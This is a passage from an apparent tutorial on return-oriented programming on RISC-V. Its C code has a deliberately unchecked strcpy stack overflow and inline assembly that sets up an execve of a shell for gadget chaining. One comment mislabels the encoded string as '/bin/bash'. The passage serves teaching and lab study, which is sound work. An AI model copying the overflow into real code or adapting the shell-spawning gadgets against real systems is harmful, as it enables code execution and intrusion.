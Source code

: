 ```c
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    test_empty();
    vulnerable_function(argv[1]);
    return 0;
}
```

Then running `./rop.o` we got the shell.

<img src="/img/simple_shell.png"  width="50%" >

### Jumping among functions
In the following example we manipulate the code in order to jump to another function and call directly the system call.
If we could find the right gadgets to set up the registers, we could use them and then jump to the `ecall`.
This means that we can jump across functions in RISCV using jal, that is exactly the core of ROP exploitation.
With that, if we can find the correct gadgets that lets us jump across functions at a certain point, we can maintain our registers loaded with some values while executing another piece of code.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void not_called() {
    asm ("li a7, 221");
    asm ("ecall");
    return;
}

int test_empty2() {
    asm ("li s1, 0x68732f6e69622f");   //hex of string /bin/bash
    asm ("sd s1, -16(sp)");
    asm ("addi a0,sp,-16");
    asm ("slt a1,zero,-1");
    asm ("slt a2,zero,-1");
    asm ("jal ra, 0x10506");
    return 1;
}

void test_empty() {
   puts("Test empty");
   return;
}

void vulnerable_function(char* string) {
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    test_empty();
    vulnerable_function(argv[1]);
```